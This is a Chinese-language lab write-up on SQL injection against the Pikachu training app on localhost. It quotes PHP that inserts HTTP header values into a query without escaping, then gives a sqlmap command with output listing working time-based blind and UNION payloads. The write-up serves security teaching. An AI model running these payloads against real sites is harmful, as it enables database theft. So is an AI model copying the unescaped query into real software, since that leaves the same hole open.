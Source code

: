 ### HTTP Headers 注入

#### 漏洞利用

通过 Header 传参的普通 SQL 注入，正常注即可

#### 漏洞代码解读

```PHP
//直接获取前端过来的头信息,没人任何处理,留下安全隐患
$remoteipadd=$_SERVER['REMOTE_ADDR'];
$useragent=$_SERVER['HTTP_USER_AGENT'];
$httpaccept=$_SERVER['HTTP_ACCEPT'];
$remoteport=$_SERVER['REMOTE_PORT'];

//这里把http的头信息存到数据库里面去了，但是存进去之前没有进行转义，导致SQL注入漏洞
$query="insert httpinfo(userid,ipaddress,useragent,httpaccept,remoteport) values('$is_login_id','$remoteipadd','$useragent','$httpaccept','$remoteport')";
$result=execute($link, $query);
```

### 布尔盲注

#### 漏洞利用

SQLMap 一把梭即可

```bash
sqlmap.exe -u "http://localhost/pikachu/vul/sqli/sqli_blind_b.php?name=1&submit=submit" --current-db --batch
```

注入结果

```plaintext
sqlmap identified the following injection point(s) with a total of 71 HTTP(s) requests:
---
Parameter: name (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=1' AND (SELECT 1790 FROM (SELECT(SLEEP(5)))qkmu) AND 'btIw'='btIw&submit=submit

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: name=1' UNION ALL SELECT NULL,CONCAT(0x7176787071,0x564851436865555a47677356774658544f4f4f6479486a4c506d65746b5975556341797041724361,0x7178717871)-- -&submit=submit
---
[21:14:04] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.39, PHP, PHP 8.0.2
back-end DBMS: MySQL >= 5.0.12
[21:14:04] [INFO] fetching current database
current database: 'pikachu'
```

#### 漏洞代码解读
